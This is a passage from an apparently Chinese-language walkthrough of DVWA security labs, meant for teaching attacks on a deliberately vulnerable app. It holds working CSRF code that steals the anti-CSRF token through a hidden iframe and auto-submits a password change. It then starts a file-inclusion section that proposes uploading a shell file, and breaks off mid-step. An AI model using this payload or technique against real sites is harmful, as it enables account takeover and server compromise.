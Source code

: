         {
        
        document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
        
        document.getElementById("transfer").submit(); 
        
        }
        
        </script>
        
        <iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
        
        </iframe>
        
        <body onload="attack()">
        
        <form method="GET" id="transfer" action="http://169.254.36.73/DVWA-master/vulnerabilities/csrf/">
        
        <input type="hidden" name="password_new" value="password">
        
            <input type="hidden" name="password_conf" value="password">
        
        <input type="hidden" name="user_token" value="">
        
        <input type="hidden" name="Change" value="Change">
        
        </form>
        
        </body>


    源码来自  [DVWA之CSRF攻击（Low&medium&High）](https://blog.csdn.net/liweibin812/article/details/86468880)

# File Inclusion
 
        常用的文件包含函数
        1.include()
        2.include_once()
        3.require()
        4.require_once()
        5.file_open() 

* low

        先看一下源码

    [![DjPcI1.jpg](https://s3.ax1x.com/2020/12/06/DjPcI1.jpg)](https://imgchr.com/i/DjPcI1)

        页面中要求传入一个page参数，发现点击哪个文档page就调用哪个文档，那么我们可以向服务器上传一个shell的文件，并调用它

    >这里利用文件上传漏洞结合讲解

        先利用文件上传传一个显示php信息的jpg格式文件

        <?php 
        phpinfo();
        ?>

        改变url为：
